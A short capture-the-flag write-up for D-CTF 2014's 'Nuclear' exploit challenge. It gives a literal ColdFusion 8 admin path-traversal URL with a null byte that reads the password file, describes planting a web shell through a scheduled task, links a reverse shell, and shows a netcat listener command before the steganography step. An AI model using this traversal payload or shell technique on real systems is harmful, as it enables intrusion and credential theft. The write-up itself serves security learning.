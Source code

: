 # D-CTF 2014: Exploit 100 – Nuclear

**Category:** Exploit
**Points:** 100
**Description:**

> 1947-1991 / 10.11.1.2. Don't forget to switch the VPN server.

## Write-up

Exploit local path inclusion vulnerability in the Cold Fusion admin panel:

`http://10.11.1.2/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`

Which gets you a md5 hash, which is the password ~Coldfusion

Then you can use the ColdFusion admin panel to add a scheduled task to fetch your jsp/php/cfm shell and put it in a web dir.

We used a simple reverse shell, http://pastebin.com/09gpcxWL in combination with `nc -v -n -l -p 4444`

Once you have a shell, start digging.

C:\Documents and Settings\admin\Desktop\paranoia.jpg is the flag.

But it seems like just another picture? Stegano!

https://ccrma.stanford.edu/~eberdahl/Projects/Paranoia/

Using that tool (or another stenography tool) with the key 'That's the most evilest thing I can imagine.' you find the key: "The Cold War is over but Cold War thinking survives."
## Other write-ups and resources

* none yet

